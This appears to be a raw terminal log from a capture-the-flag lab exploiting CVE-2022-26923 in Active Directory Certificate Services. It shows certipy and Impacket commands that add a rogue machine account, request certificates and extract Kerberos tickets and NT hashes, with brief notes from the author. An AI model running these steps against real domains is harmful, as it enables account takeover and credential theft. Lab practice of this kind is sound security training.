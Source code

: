 ```
└─$ certipy auth -pfx thm.pfx
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Using principal: thm@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thm.ccache'
[*] Trying to retrieve NT hash for 'thm'
[*] Got hash for 'thm@lunar.eruca.com': aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a

┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ certipy-ad auth -pfx thm.pfx
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Using principal: thm@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thm.ccache'
[*] Trying to retrieve NT hash for 'thm'
[*] Got hash for 'thm@lunar.eruca.com': aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a

seems different the reponse (nope is the same)

┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ /usr/share/doc/python3-impacket/examples/addcomputer.py 'lunar.eruca.com/thm:Password1@' -method LDAPS -computer-name 'THMPC' -computer-pass 'Password1@'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account THMPC$ with password Password1@.

(certipy) root@ip-10-10-15-15:~# addcomputer.py 'lunar.eruca.com/thm:Password1@' -method LDAPS -computer-name 'THMPC' -computer-pass 'Password1@'
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[-] Account THMPC$ already exists! If you just want to set a password, use -no-add.

yep cz I've already created it.

(certipy) root@ip-10-10-15-15:~# certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 20
[*] Got certificate with DNS Host Name 'THMPC.lunar.eruca.com'
[*] Saved certificate and private key to 'thmpc.pfx'
(certipy) root@ip-10-10-15-15:~# certipy auth -pfx thmpc.pfx
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: thmpc$@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thmpc.ccache'
[*] Trying to retrieve NT hash for 'thmpc$'
[*] Got NT hash for 'thmpc$@lunar.eruca.com': 43460d636f269c709b20049cee36ae7a

so 1st create a certificate template user then add a machine and add a certificate template machine

┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ certipy-ad req -u 'THMPC$@lunar.eruca.com' -p Password1@ -ca LUNAR-LUNDC-CA -template Machine
```